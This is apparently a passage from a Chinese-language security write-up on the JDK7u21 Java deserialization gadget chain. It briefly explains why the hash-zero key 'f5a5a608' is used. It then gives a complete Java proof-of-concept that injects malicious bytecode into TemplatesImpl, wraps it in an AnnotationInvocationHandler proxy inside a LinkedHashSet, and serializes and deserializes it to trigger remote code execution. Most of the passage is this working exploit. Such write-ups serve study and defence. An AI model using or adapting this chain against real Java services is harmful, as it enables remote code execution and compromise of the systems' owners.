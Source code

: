 至于hash为0的键，找到的是`f5a5a608`。



因为`hashSet`的`add`函数调用了`map.put`

![image-20220928164958160](img/image-20220928164958160.png)

所以最开始不能直接`memberValues.put("f5a5a608",templates)`



所以整体的poc也出来

```java
package jdk721;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javax.xml.transform.Templates;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.*;

public class jdk7u21 {
    public static void main(String[] args) throws Exception {
        //TemplatesImpl恶意加载字节码实现RCE
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates =new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","z3eyond");

        HashMap<String ,Object> memberValues=new HashMap<>();
        memberValues.put("f5a5a608","z3eyond");
        //需要proxy的equals函数去触发invoke
        Class clazz= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor=clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler=(InvocationHandler)constructor.newInstance(Templates.class,memberValues);
        Templates proxy=(Templates) Proxy.newProxyInstance(
                Templates.class.getClassLoader(),
                new Class[]{Templates.class},
                handler
        );
	   //add的顺序不能变
        HashSet hashSet=new LinkedHashSet();
        hashSet.add(templates);
        hashSet.add(proxy);
        memberValues.put("f5a5a608",templates);
        byte[] bytes=SerializeUtil.serialize(hashSet);
        SerializeUtil.unserialize(bytes);
    }
}

```
